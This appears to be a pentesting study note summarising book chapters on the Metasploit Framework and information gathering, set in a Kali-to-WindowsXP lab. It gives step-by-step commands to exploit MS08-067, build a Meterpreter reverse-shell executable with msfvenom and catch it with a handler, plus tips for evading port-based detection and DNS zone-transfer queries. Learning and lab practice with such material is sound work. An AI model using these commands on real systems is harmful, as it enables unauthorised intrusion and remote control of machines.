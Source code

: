 """

## Chapter 4 - Using Metasploit Framework

Read "Metasploit - a Pentesters's guide" for more information.

Initiate the services:

    service postgresql start
    service metasploit start
    msfconsole
    
1. Within metasploit console, use the *search* and *info* commands: "search ms08-067" and "info ms08-067"
2. Once you settle on that exploit, type the *use* command: "use windows/smb/ms08_067_netapi".
3. View your options with the *show* command : "show options"
4. Configure your target with the *set* command: "set RHOST 10.1.2.3"... Nobody moves the SMB prot to something else than 445, right ?
5. Pick the right target for your exploit, make sure to pick the right one... use use automatic targeting
6. Find and configure a compatible payload "show payloads" or use the default one
7. "exploit"

You might want to change the default 4444 listener port metasploit uses. 4444 traffic is kind of a red flag. "set LPORT 443"

MSFCLI is an powerful interface that isn't interactive. It does what you tell it to do, when you know what you're doing.
Example: "msfcli windows/smb/ms08_067_netapi RHOST=192.168.20.10 PAYLOAD=windows/shell_bind_tcp E" 

MSFVENOM allows you to create an executable with the desired custom payload
#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.100 LPORT=31337 -f exe > callhome.exe
Host this file in /var/www directory to serve it with Kali Apache, "service apache2 start"
Before you switch to windowsXP and access the website to download the exe file, start the handler on kali
1. "use multi/handler"
2. "set PAYLOAD windows/meterpreter/reverse_tcp"
3. "set LHOST 192.168.20.100
4. "set LPORT 31337"
5. "exploit"

## Chapter 5 - Information gathering

Dumpster diving, database dumps, social engineering... and OSINT.

**information gathering**
Netcraft, a company who logs uptime and queries servers. Passive information gathering. http://www.netcraft.com 

**information gathering**
The "host" command is a powerfull linux tool to get information about DNS

    host -t ns zoneedit.com
    host -l zoneedit.com ns2.zoneedit.com
    